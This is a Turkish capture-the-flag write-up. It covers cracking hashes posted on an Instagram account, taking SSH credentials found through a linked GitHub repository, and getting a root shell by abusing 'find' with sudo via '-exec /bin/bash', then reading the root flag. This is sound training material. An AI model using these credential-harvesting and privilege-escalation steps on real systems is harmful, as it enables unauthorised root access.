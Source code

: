 # CTF Write-Up: FullPwn

## Senaryo

Bu CTF senaryosunda, başlangıçta bir **Instagram hesabı** ve bir **IP adresi** verilmektedir.
Katılımcıların Instagram hesabında paylaşılan postlarda bulunan hashleri çözerek flagi elde etmeleri gerekmektedir.

---

## 1. Instagram Hesabı ve Hashlerin Çözülmesi

İlk adım olarak verilen **Instagram hesabına giriş yapılmalıdır**. Postlar arasında hashler bulunmaktadır. Bu hashlerin çözümleri aşağıdaki gibidir:

- **Morse Kodu (sky)**: `... -.- -.--` → **SKY**
- **MD5 (lab)**: `f9664ea1803311b35f81d07d8c9e072d` → **LAB**
- **SHA256 (harika)**: `6c12bdb955161113e8b04cdc20d975a8457949e0dada8cdbea38501affd4bb92` → **HARİKA**
- **SHA1 (SKYDAYS25{})**: `2cc5422cabe10c59571badcf0371ebb5c70e4532` → **SKYDAYS25{FLAG}**

---

## 2. Instagram Biyografisinden Github'a Erişim

Instagram biyografisinde bir **GitHub linki** bulunmaktadır. Bu link takip edilerek, içinde **kullanıcı adı ve şifre** bulunan bir dosya tespit edilmelidir.

![image](./github.png)

---

## 3. SSH ile Sisteme Giriş

GitHub’dan elde edilen **kullanıcı adı** ve **şifre** kullanılarak, verilen **IP adresine SSH bağlantısı** gerçekleştirilmelidir.

```bash
ssh username@IP_ADRESİ
```

Bağlantı sağlandıktan sonra **user flag** elde edilecektir.

![image](./user.png)

---

## 4. Privilege Escalation (Yetki Yükseltme)

Sisteme girdikten sonra, root yetkilerini almak için aşağıdaki adımlar takip edilmelidir.

### 4.1. Sudo Yetkilerini Kontrol Etme

```bash
sudo -l
```

Bu komut çalıştırıldığında **find** komutunun sudo yetkileri ile çalıştırılabileceği görülecektir.

### 4.2. SUID Bayrağı Olan Dosyaları Bulma

```bash
find / -type f -perm -4000
```

Bu komut, sistemde SUID (Set User ID) bitine sahip dosyaları listeler.

### 4.3. Find Komutunu Kullanarak Root Yetkisi Almak

```bash
sudo find / -type f -perm -4000 -exec /bin/bash \;
```

Bu komut, root yetkileriyle bash kabuğunu açarak root erişimi sağlamaktadır.

![image](./root.png)

---

## 5. Root Flag'i Bulma

```bash
cat /root/root_flag.txt
```

Bu komut ile **root flag** elde edilir.

---

## Sonuç

Bu CTF, temel olarak **hash çözme, OSINT teknikleri, SSH erişimi ve privilege escalation (yetki yükseltme)** adımlarını içermektedir. Başarıyla tamamlayan katılımcılar, temel Linux yeteneklerini ve sızma testi tekniklerini öğrenmiş olacaklardır.
